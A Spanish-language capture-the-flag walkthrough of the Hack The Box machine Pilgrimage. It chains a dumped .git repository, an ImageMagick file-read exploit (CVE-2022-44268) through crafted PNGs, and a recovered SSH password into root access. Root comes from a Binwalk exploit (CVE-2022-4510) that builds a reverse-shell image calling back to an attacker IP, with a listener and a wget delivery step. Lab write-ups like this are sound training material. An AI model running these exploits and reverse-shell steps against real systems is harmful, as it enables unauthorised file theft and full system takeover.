Pilgrimage es una máquina Linux de dificultad fácil que presenta una aplicación web con un repositorio `Git` expuesto. El análisis del sistema de archivos subyacente y el código fuente revela el uso de una versión vulnerable de `ImageMagick`, que se puede utilizar para leer archivos arbitrarios en el objetivo mediante la incorporación de un fragmento `tEXT` malicioso en una imagen PNG. La vulnerabilidad se aprovecha para obtener un archivo de base de datos `SQLite` que contiene una contraseña de texto sin formato que se puede utilizar para acceder a la máquina mediante SSH. La enumeración de los procesos en ejecución revela un script `Bash` ejecutado por `root` que llama a una versión vulnerable del binario `Binwalk`. Al crear otro PNG malicioso, se aprovecha `CVE-2022-4510` para obtener la ejecución remota de código (RCE) como `root`.

# Enumeración

Iniciamos con la enumeración de puertos de la maquina.

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.219 -oG allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Los puertos abiertos que encontramos son el 22 y 80, teniendo los puertos abiertos procederemos a enumerar las versiones y servicios.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.219 -oN servicesScan
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDnPDlM1cNfnBOJE71gEOCGeNORg5gzOK/TpVSXgMLa6Ub/7KPb1hVggIf4My+cbJVk74fKabFVscFgDHtwPkohPaDU8XHdoO03vU8H04T7eqUGj/I2iqyIHXQoSC4o8Jf5ljiQi7CxWWG2t0n09CPMkwdqfEJma7BGmDtCQcmbm36QKmUv6Kho7/LgsPJGBP1kAOgUHFfYN1TEAV6TJ09OaCanDlV/fYiG+JT1BJwX5kqpnEAK012876UFfvkJeqPYXvM0+M9mB7XGzspcXX0HMbvHKXz2HXdCdGSH59Uzvjl0dM+itIDReptkGUn43QTCpf2xJlL4EeZKZCcs/gu8jkuxXpo9lFVkqgswF/zAcxfksjytMiJcILg4Ca1VVMBs66ZHi5KOz8QedYM2lcLXJGKi+7zl3i8+adGTUzYYEvMQVwjXG0mPkHHSldstWMGwjXqQsPoQTclEI7XpdlRdjS6S/WXHixTmvXGTBhNXtrETn/fBw4uhJx4dLxNSJeM=
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOaVAN4bg6zLU3rUMXOwsuYZ8yxLlkVTviJbdFijyp9fSTE6Dwm4e9pNI8MAWfPq0T0Za0pK0vX02ZjRcTgv3yg=
|   256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILGkCiJaVyn29/d2LSyMWelMlcrxKVZsCCgzm6JjcH1W
80/tcp open  http    syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Puerto 80

En el puerto 80 encontramos un sitio web para subir una imagen y la almacena en la nube otorgándonos un link.



Al crearnos un usuario podemos almacenar varias imágenes teniendo los links a disposición de nuestro usuario.



## Git-dumper

Usando diversos diccionarios para enumerar los directorios encontré el directorio `.git` y para enumerar los directorio use `feroxbuster`.

```c
❯ feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt --url http://pilgrimage.htb/ -x php
```



Teniendo este directorio podemos obtener todos los archivos del `.git` con [git dumper](https://github.com/arthaud/git-dumper). con el siguiente comando podemos obtener los directorios.

```c
❯ git-dumper 'http://pilgrimage.htb/.git' ./Git
```

Luego de obtener dichos archivos:



En uno de ellos podemos encontrar con la ejecución de un binario el cual también tenemos en nuestra maquina atacante.



# CVE-2022-44268

El binario que se ejecuta es `magick`, que ejecutando `./magick --version`  podremos ver la versión del binario.



Investigando un poco encontraremos que esta version de este binario tiene una vulnerabilidad [CVE-2022-44268](https://github.com/Sybil-Scan/imagemagick-lfi-poc) el cual permite leer archivos del sistema.

Ejemplo de uso del sploit:

```c
(~)>>> python3 generate.py -f "/etc/passwd" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit.png
```

```c
(~)>>> convert exploit.png result.png
```

```c
(~)>>> identify -verbose result.png
```

```c
(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

Generaremos nuestra imagen maliciosa que apunta al `/etc/passwd`.


Subimos nuestra imagen.



Luego de subir la imagen, descargaremos la imagen que subimos.

```c
(~)>>> convert 669f113250f5f.png result.png
```

Luego de obtener la imagen `result.png`, ejecutaremos el siguiente comando:

```c
(~)>>> identify -verbose result.png
```

Luego obtendremos un contenido en hexadecimal el cual con ayuda de python podremos obtener el contenido del `/etc/passwd` 

```c
python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'
```

Luego de ejecutar el comando en python obtenemos el contenido del `/etc/passwd` del sistema victima.



# shell - emily

Revisando un poco mas el código encontraremos que se llama a una base de datos en la ruta `/var/db/pilgrimage` para almacenar el nombre de las imágenes. Entonces ahora será obtener la información de la base de datos.

```c
❯ python3 generate.py -f "/var/db/pilgrimage" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit.png

```

Luego de cargar la imagen y descargar la imagen, podemos ejecutar el siguiente comando para poder obtener el contenido de manera automática y no como lo hicimos anteriormente.

```c
❯ identify -verbose 669f223ecb6b0.png | grep -Pv "^( |Image)"  | xxd -r -p
```



Vemos que efectivamente contiene la información de la base de datos, que lo guardaremos en un archivo.

```c
❯ identify -verbose 669f223ecb6b0.png | grep -Pv "^( |Image)"  | xxd -r -p > Pilgrimage.db
```

Haciendo uso de `sqlite3` podremos leer la base de datos.



En la base de datos encontraremos credenciales del usuario `emily`

```c
emily : abigchonkyboi123
```

Las credenciales que encontramos son validas contra el servicio `ssh`



## Procesos

Enumerando los procesos con ayuda de `pspy64` podemos ver que se ejecuta un script `malwarescan.sh` y el usuario que lo ejecuta tiene el `uid=0` que es propio del usuario `root`



Procedemos a ver el script:

```c
emily@pilgrimage:/tmp$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Vemos que se ejecuta dentro del script `binwalk`
# shell - root

Enumerando la versión de `binwalk` la versión del binario



Buscando por internet sobre la versión del binario encontraremos que este tiene una vulnerabilidad en donde podemos ejecutar comandos.

## CVE-2022-4510

El exploit que nos permite ejecutar comando es:

- [https://github.com/adhikara13/CVE-2022-4510-WalkingPath](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)

Que lo puedes descargar de github. Luego de descargarlo podemos generar nuestra imagen maliciosa.

```c
❯ python3 walkingpath.py reverse /home/b0ysie7e/Descargas/cat.png 10.10.14.55 443
```

Luego de generar obtenemos una imagen con el nombre de `binwalk_exploit.png`



Ahora para enviar esta imagen a la maquina victima, haremos uso de  un servidor en python3

```c
❯ python3 -m http.server 80
```

Pero antes de descargar en la maquina victima debemos de ponernos a la escucha con `ncat`

```c
❯ ncat -nvlp 443
```

Descargamos la imagen en la maquina victima

```c
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.55/binwalk_exploit.png
```



Luego de subir dicha imagen deberíamos de obtener una Shell como el usuario `root`.



